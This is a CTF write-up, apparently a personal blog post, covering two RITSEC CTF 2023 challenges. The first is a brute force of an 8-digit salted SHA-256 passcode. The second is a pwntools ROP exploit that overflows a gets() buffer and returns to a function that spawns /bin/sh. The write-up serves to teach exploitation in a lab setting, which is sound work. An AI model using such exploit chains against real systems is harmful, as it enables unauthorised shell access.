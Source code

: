 ```yaml
---
layout: post
title: "RITSEC CTF 2023 Writeup"
date: 2023-04-03
categories: ctf
excerpt_separator: <!--more-->
---
```


Finished as 252nd out of 717, with 10 flags and 902 points.<br>
Writeup for RITSEC CTF 2023 challenges:
- [Guess the Password (263 Points, 175 Solves)](#guess-the-password-263-points-175-solves)
- [ret2win (83 Points, 208 Solves)](#ret2win-83-points-208-solves)<!--more-->

<br>

## Guess the Password (263 Points, 175 Solves)

The python source code of the challenge is given, and the passcode verification is as follows:

```python
class Server:
    def chatter(self, connection_info):
        ...
        client_socket.send( "Enter the passcode to access the secret: \n".encode() )
                user_input = client_socket.recv(1024).decode() [:8]

                if len(user_input) == 8 and self.encoder.check_input(user_input):
                    secret = self.encoder.flag_from_pwd(user_input)
                    response = f"RS{ {secret} }\n"

                else:
                    response = "That password isn't right!\n\tHint: The last 8 digits of your phone number\n"

class Encoder():
    key = "657fa7558ae9011e8b9d3f56d5c083273557c3139f27d7b62cac458eb1a1a19d"
    secret = "xxxxCORRUPTED_SECRETxxxx"
    ...
    def hash(self, user_input):
        salt = "RITSEC_Salt"
        return hashlib.sha256(salt.encode() + user_input.encode()).hexdigest()

    def check_input(self, user_input):
        hashed_user_input = self.hash(user_input)
        # print("{0} vs {1}".format(hashed_user_input, self.hashed_key))
        return hashed_user_input == self.hashed_key
```

Using *Hint: The last 8 digits of your phone number*, we can guess that the password is 8 numerical digits. <br>
During the CTF, I just thought 26 ** 8 was too large to brute force (guess) compared to 10 ** 8, and so I went with 8 numerical digits.<br>
I should have read the hint more carefully, but I was lucky.<br>
The method of checking the key is given to us, and the passcode is quite short.<br>
So we can brute force the passcode locally, and get the flag.<br>
Copy the `check_input` and `hash` functions and write a short script.

```python
import hashlib, json
from tqdm import tqdm

key = "657fa7558ae9011e8b9d3f56d5c083273557c3139f27d7b62cac458eb1a1a19d"

def hash(user_input):
    salt = "RITSEC_Salt"
    return hashlib.sha256(salt.encode() + user_input.encode()).hexdigest()

def check_input(user_input):
    hashed_user_input = hash(user_input)
    #print("{0} vs {1}".format(hashed_user_input, key))
    return hashed_user_input == key

for i in tqdm(range(0, 100000000)):
    if check_input(str(i).rjust(8)):
        print("Found")
        print(i)
        break
```

Submit this passcode and the flag is printed out.

```
Enter the passcode to access the secret:
54744973
RS{'PyCr@ckd'}
```

Flag: `RS{'PyCr@ckd'}`

<br>
<br>
<br>

## ret2win (83 Points, 208 Solves)



Checksec output
```
Partial RELRO    No canary found    NX disabled    No PIE ...
```

Decompiled with IDA

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("Are you expert at exploit development, join the world leading cybersecurity company, Republic of Potatoes(ROP)");
  puts("[*] This is a simple pwn challenge...get to the secret function!!");
  user_input("[*] This is a simple pwn challenge...get to the secret function!!", argv);
  return 0;
}
```

The challenge is to get to the secret function.<br>
Looking around in IDA, we find the secret function.

```c
int __fastcall supersecrettoplevelfunction(int a1, int a2)
{
  puts("[*]  if you figure out my address, you are hired.");
  if ( a1 == -889275714 && a2 == -1059145026 )
    return system("/bin/sh");
  else
    return puts("[!!] You are good but not good enough for my company");
}
```

The only way to get to this secret function seems to be by overwriting the return address, as hinted by the name of the challenge.<br>
Sure enough, `user_input` uses `gets` which is vulnerable to buffer overflow.

```c
int user_input()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  gets(v1);
  return printf("[*] Good start %s, now do some damage :) \n", v1);
}
```

We use gdb to find the address of the secret function, and the offset from the buffer to the return address.<br>
But just returning to the secret function is not enough, we have to set its arguments `a1(rdi) == -889275714 && a2(rsi) == -1059145026`.<br>
We could have checked the disassembly in gdb to get the two's complement hexadecimal format of these two values,<br>
but during the CTF I wrote a script to find them.

```python
def twos_complement_64(n):
    binary = bin(n)[2:].rjust(64, "0")
    ones_complement = "".join(['0' if c == '1' else '1' for c in binary])
    twos_complement = bin(int(ones_complement, 2) + 1)[2:]
    hexadecimal = [hex(int(twos_complement[i : i + 4], 2))[2:] for i in range(0, len(twos_complement), 4)]

    print("Binary:".ljust(20), binary)
    print("One's Complement:".ljust(20), ones_complement)
    print("Two's Complement:".ljust(20), twos_complement)
    print("Hexadecimal".ljust(20), "".join(hexadecimal))

twos_complement_64(889275714)
twos_complement_64(1059145026)
```
```
$> python script.py
Binary:              0000000000000000000000000000000000110101000000010100010101000010
One's Complement:    1111111111111111111111111111111111001010111111101011101010111101
Two's Complement:    1111111111111111111111111111111111001010111111101011101010111110
Hexadecimal          ffffffffcafebabe
Binary:              0000000000000000000000000000000000111111001000010100010101000010
One's Complement:    1111111111111111111111111111111111000000110111101011101010111101
Two's Complement:    1111111111111111111111111111111111000000110111101011101010111110
Hexadecimal          ffffffffc0debabe
```

Now that we have the values, we use Return Oriented Programming to set the arguments, and return to the secret function.<br>
I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find the gadgets.
Final Script

```python
from pwn import *

# p = process("./ret2win")
p = remote("ret2win.challenges.ctf.ritsec", port)

pop_rdi = 0x4012b3
pop_rsi_r15 = 0x4012b1
secret = 0x401196
arg1 = 0xffffffffcafebabe # -889275714
arg2 = 0xffffffffc0debabe # -1059145026

payload = b"A" * 0x20 + b"B" * 0x08
payload += p64(pop_rdi)
payload += p64(arg1)
payload += p64(pop_rsi_r15)
payload += p64(arg2)
payload += p64(0)
payload += p64(secret)

p.send(payload)
p.interactive()
```

Flag: `RS{WHAT'S_A__CTF_WITH0UT_RET2WIN}`
